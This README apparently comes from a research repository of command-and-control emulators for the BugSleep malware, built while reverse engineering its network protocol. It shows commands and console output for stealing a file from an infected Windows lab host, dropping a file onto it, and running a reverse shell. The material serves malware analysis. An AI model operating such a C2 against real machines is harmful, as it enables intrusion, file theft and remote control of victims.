


# BugSleep C2 emulator

The repository stores two C2 emulators developed while [reversing](https://raw-data.gitlab.io/post/bugsleep_netprotocol/) the BugSleep network protocol. [One](BugSleepC2Emulator_file_download_upload.py) handles file download and upload tasks from an infected host, while the [second](BugSleepC2Emulator_RevShell.py) handles a basic Reverse Shell channel.

## BugSleepC2Emulator_file_download_upload.py

### Download a file from the remote host

```bash
sudo ./BugSleepC2Emulator_file_download_upload.py --hex-value 0 --remote-path C:\\Users\\Us3R\\Desktop\\w00t.bin -v
```

```bash
[BugSleepC2] Listening on 0.0.0.0:443

[Connection] Accepted connection from ('172.16.2.12', 50416)
[Connection] Handling command 0x0 (Download file from remote host to C2)

[Phase 1] Receiving message from client...
  [Phase 1] Received data (hexdump and ASCII view):
	Data: D3SKT0P-T0A11ER/Us3R

[Phase 2] Generating 4 random bytes to send to the client...

[Phase 3] Crafting and sending the new message...
[Info] Remote path 'C:\Users\Us3R\Desktop\w00t.bin' size: 60 bytes
[Function] Exec logic for hex 0x0 (Download file from remote host)
[Phase 4] Total file size calculated: 95 bytes
[Phase 5] Receiving file content of 95 bytes...
[Info] SHA-1 hash of the file content: 4828c4a964d478e62974fa2bad3fec59c5bddec8
[Info] Saving file as: 4828c4a964d478e62974fa2bad3fec59c5bddec8.bin
[Phase 5] File content saved to 4828c4a964d478e62974fa2bad3fec59c5bddec8.bin
[Connection] Client connection closed.
```

File on the target host




### Upload a file to the remote host

```bash
sudo ./BugSleepC2Emulator_file_download_upload.py --hex-value 1 --file /bin/bash --drop-location C:\\Users\\Us3R\\Desktop\\bash -v
```

```bash
[BugSleepC2] Listening on 0.0.0.0:443

[Connection] Accepted connection from ('172.16.2.12', 50377)
[Connection] Handling command value 0x1 (Upload file from C2 to remote host)

[Phase 1] Receiving message from client...
  [Phase 1] Received data (hexdump and ASCII view):
	Data: D3SKT0P-T0A11ER/Us3R

[Phase 2] Generating 4 random bytes to send to the client...

[Phase 3] Crafting and sending the new message...
[Info] Drop location 'C:\Users\Us3R\Desktop\bash' size: 52 bytes
[Function] Exec logic for hex 0x1 (Upload file to remote host)
[Info] File size: 1183448 bytes, Full blocks: 1160, Last block size: 248 bytes
File transmission completed. Total bytes sent: 1183452
[Connection] Client connection closed.
```
File integrity can be simply checked with a hash, on the C2 side

```bash
sha1sum /bin/bash 
41ba1bd49cb22466e422098d184bd4267ef9529e  /bin/bash
```

and on the Windows side




## BugSleepC2Emulator_RevShell.py

The script provides a basic reverse shell to the operator on the infected system.

```bash
sudo ./BugSleepC2Emulator_RevShell.py -v
```

```bash
[BugSleepC2] Listening on 0.0.0.0:443

[Connection] Accepted connection from client: ('172.16.2.12', 50380)

[Phase 1] Receiving the first message from client...

[Phase 2] Sending 4 random bytes back to the client...

[Phase 3] Sending the initial message to the client...
[Shell] Interactive shell started. Type 'terminate' to exit.
z
[Shell] Enter a command ('terminate' to exit): whoami
Microsoft Windows [Version 10.0.19041.450]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\Us3R\Desktop>
5whoami
d3skt0p-t0a11er\Us3R

C:\Users\Us3R\Desktop>
[Shell] Enter a command ('terminate' to exit): ipconfig
-ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.2.12
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.2.135

C:\Users\Us3R\Desktop>
```

